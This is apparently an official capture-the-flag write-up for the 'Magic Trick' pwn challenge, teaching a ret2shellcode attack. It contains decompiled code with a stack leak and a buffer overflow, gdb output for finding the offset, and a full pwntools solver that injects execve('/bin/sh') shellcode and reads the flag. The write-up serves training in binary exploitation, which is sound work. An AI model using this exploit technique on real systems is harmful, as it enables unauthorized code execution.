

    	<font size="10">Magic Trick</font>

​		20<sup>th</sup> September 2023 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 


# Synopsis

Magic Trick is a very easy difficulty challenge that features reading a stack address and then trigger a buffer overflow to redirect the flow to the shellcode we store in this address (`ret2shellcode`).

## Skills Required

- `pwntools`, basic C, Buffer Overflow

## Skills Learned

- `ret2shellcode`

# Enumeration

First of all, we start with a `checksec`:  

```console
➜  challenge git:(main) ✗ check magic_trick
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      No canary found   NX disabled   PIE enabled     No RPATH   RUNPATH      magic_trick
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ❌      | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

`NX` is disabled, meaning we can execute code on the stack. Also, `canary` is disabled too, meaning we can have a possible `Buffer Overflow`.

The interface of the program looks like this:



As we noticed, there is a `Buffer Overflow`, because after we entered a big amount of "A"s, the program stopped with `Segmentation fault`. This means we messed up with the addresses of the binary.

### Disassembly ⛏️

Starting with `main()`:

```c
undefined8 main(void)

{
  setup();
  cls();
  game();
  return 0;
}
```

There are some function calls:

- `setup()`   : Sets the appropriate buffers in order for the challenge to run.
- `cls()`  : Clears the screen.

Now, the interesting function is `game()`.

```c
void game(void)

{
  int iVar1;
  char *pcVar2;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  char local_11;
  ulong local_10;
  
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  printstr("[Hex-Magician]: I will tell you a number and I want you to memorize it.\n\n[Hex-Magician ]: The number is \'"
           ,0);
  printf("%p\'.",&local_48);
  sleep(1);
  for (local_10 = 0; local_10 < 0x1f; local_10 = local_10 + 1) {
    printf("\b \b");
    usleep(60000);
  }
  printstr("Now I want you to add 0x10 to this number ok?\n\n[Hex-Magician]: Now, multiply the resul t with 0x20.\n\n[Hex-Magician]: Now, divide the result with 0x20 and then subtract 0x10!\n\n[Hex-M agician]: Is this your initial number?\n\n>> "
           ,0);
  iVar1 = getchar();
  local_11 = (char)iVar1;
  getchar();
  if ((local_11 == 'y') || (local_11 == 'Y')) {
    pcVar2 = "\n\n[Hex-Magician]: Of course it is! I\'m the greatest Hex-Magician!\n\n";
  }
  else {
    pcVar2 = "\n\n[Hex-Magician]: Something went wrong! :(\n\n";
  }
  printstr(pcVar2,0);
  printstr("[Hex-Magician]: Did you enjoy the trick after all?\n\n>> ",0);
  read(0,&local_48,0x4e);
  return;
}
```

Focusing on the important stuff.

* There is a `stack address` leak here: `printf("%p\'.",&local_48);` 

* `local_48` is a 48-bytes long buffer.
* `read(0,&local_48,0x4e);`stores in this buffer up to `0x4e` bytes (78 in decimal). 

Now that we discovered the bugs, we need to find the exploitation path to follow.

#### Exploitation path

What we know so far:

* The address of buffer we write to.
* There is a Buffer Overflow.
* `NX` is disabled. 

These three are more than enough for us to get shell on the system. The payload should look like this:

```python
payload = shellcode + nop_slide*overflow_offset + leaked_stack_address
```

#### Nop slides

[NOP slide](https://en.wikipedia.org/wiki/NOP_slide) is actually an instruction that does nothing, "sliding" the CPU's  instruction execution flow to the final destination. It is represented  with "\x90".

#### Shellcode

Shellcode is actually a set of instruction. We are going to call something like `system("/bin/sh")` or `execve("/bin/sh")`. We can find shellcodes online or create our owns. For this binary, we are going to use [pwntools shellcraft](https://docs.pwntools.com/en/stable/shellcraft.html) method:

```python
context.arch = 'amd64'
sc = asm(shellcraft.execve('/bin/sh'))
```

### Debugging 

First of all, we need to find the offset where we start overwriting the return address.

```gdb
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
pwndbg> r
Starting program: /home/w3th4nds/github/australia/pwn/[Easy] Magic Trick/challenge/magic_trick 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".


[Hex-Magician]: I will tell you a number and I want you to memorize it.

[Hex-Magician]: Now I want you to add 0x10 to this number ok?

[Hex-Magician]: Now, multiply the result with 0x20.

[Hex-Magician]: Now, divide the result with 0x20 and then subtract 0x10!

[Hex-Magician]: Is this your initial number?

>> y


[Hex-Magician]: Of course it is! I'm the greatest Hex-Magician!

[Hex-Magician]: Did you enjoy the trick after all?

>> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x000061616161616a in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────
*RAX  0x4e
 RBX  0x0
*RCX  0x7ffff7d14992 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x4e
 RDI  0x0
*RSI  0x7fffffffde80 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa'
*R8   0x7ffff7e1ba70 (_IO_stdfile_1_lock) ◂— 0x0
*R9   0x7fffffffbbec ◂— 0x300007fff
 R10  0x0
*R11  0x246
*R12  0x7fffffffdfe8 —▸ 0x7fffffffe334 ◂— '/home/w3th4nds/github/australia/pwn/[Easy] Magic Trick/challenge/magic_trick'
*R13  0x55555555554a (main) ◂— endbr64 
*R14  0x555555557d60 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555240 (__do_global_dtors_aux) ◂— endbr64 
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffded0 ◂— 0x1
*RIP  0x61616161616a
──────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────
Invalid address 0x61616161616a
```

We can see that the program crashed at the address `0x61616161616a`. Calculating the offset, we see that it's after `0x48` bytes (72 in decimal). The only thing left, is to read the leaked address with `pwntools` and the exploit is ready.

# Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './magic_trick' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP}:{PORT}\n')

# Read stack leak
r.recvuntil("is '")
leak = int(r.recvuntil("'")[:-1], 16)
print(f'Leak: {leak:#04x}')

# Proceed to Bof
r.sendlineafter('>> ', 'y')

sc = asm(shellcraft.execve('/bin/sh'))

r.sendlineafter('>> ', sc.ljust(0x48, b'\x90') + p64(leak))

# Read flag
pause(1)
r.sendline('cat flag*')
print(f'\nFlag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0:1337

Leak: 0x7ffc715a8c10

Flag --> HTB{f4k3_fl4g_f0r_writ3up}
```
